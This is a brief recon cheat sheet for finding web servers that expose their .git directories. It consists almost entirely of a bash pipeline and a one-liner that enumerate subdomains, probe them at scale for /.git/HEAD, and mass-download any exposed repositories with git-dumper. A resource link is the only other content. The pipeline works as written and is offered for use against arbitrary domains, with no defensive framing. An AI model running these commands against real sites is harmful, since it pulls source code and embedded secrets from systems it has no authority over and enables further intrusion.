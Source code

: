 # How to Hunt for Exposed .git Dorectories

```bash
echo example.com | subfinder -all -o subs.txt

cat subs.txt | httpx-toolkit -path /.git/HEAD -silent -mr "refs/heads" -rl 500 | tee git.txt

cat git.txt | cut -d '/' -f1,2,3,4 | while read url; do git-dumper $url git-dumper/$url; done


```

One Liner
```bash
echo example.com | subfinder -all | httpx-toolkit -path /.git/HEAD -silent -mr "refs/heads" -rl 500 | cut -d '/' -f1,2,3,4 | while read url; do git-dumper $url git-dumper/$url; done
```

Resources
https://medium.com/smallcase-engineering/web-security-exposed-git-folder-in-production-51ad9484dee0
